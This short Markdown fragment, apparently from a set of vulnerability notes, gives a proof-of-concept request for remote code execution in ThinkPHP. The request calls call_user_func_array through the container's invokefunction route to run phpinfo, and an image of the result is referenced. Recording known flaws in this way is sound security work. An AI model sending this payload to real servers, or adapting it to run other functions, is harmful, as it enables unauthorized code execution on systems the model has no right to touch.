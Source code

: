 >```php
>public  function index()
>    {
>        //...无需实际代码
>     }
>    ```
>
>POC
>
>```php
>index?s=index/\think\container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
>```
>
>结果
>
>![img](image/ThinkPHP/2018-12-10.png)

